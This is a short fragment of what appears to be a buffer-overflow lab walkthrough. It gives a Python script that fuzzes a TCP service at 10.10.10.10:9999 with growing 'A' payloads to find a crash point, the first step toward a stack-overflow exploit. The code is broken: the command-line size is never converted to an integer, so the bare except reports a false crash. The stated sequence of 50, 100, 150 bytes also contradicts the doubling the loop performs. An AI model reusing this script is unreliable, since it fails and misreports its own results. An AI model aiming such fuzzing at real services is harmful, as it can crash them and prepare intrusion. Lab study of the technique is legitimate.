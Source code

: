 You gotta find the point the program crash, which you can use python.

```python
import socket
import sys
from time import sleep

ip, port = "10.10.10.10", 9999
fuzzer = sys.argv[1]
prefix = b"" # change this if necessary and make sure theres a space at the end.

while True:
	try:
		s = socket.socket()
		s.connect((ip, port))
		s.send(prefix + b"A"*fuzzer)
		sleep(1)
		fuzzer = fuzzer+fuzzer
	except:
		print(f"Crashed at {fuzzer} bytes")
		sys.exit()
```

Run this with 
Ex. `python3 fuzzer.py 50`
This will fuzz the port with 50 bytes then 100 then 150.
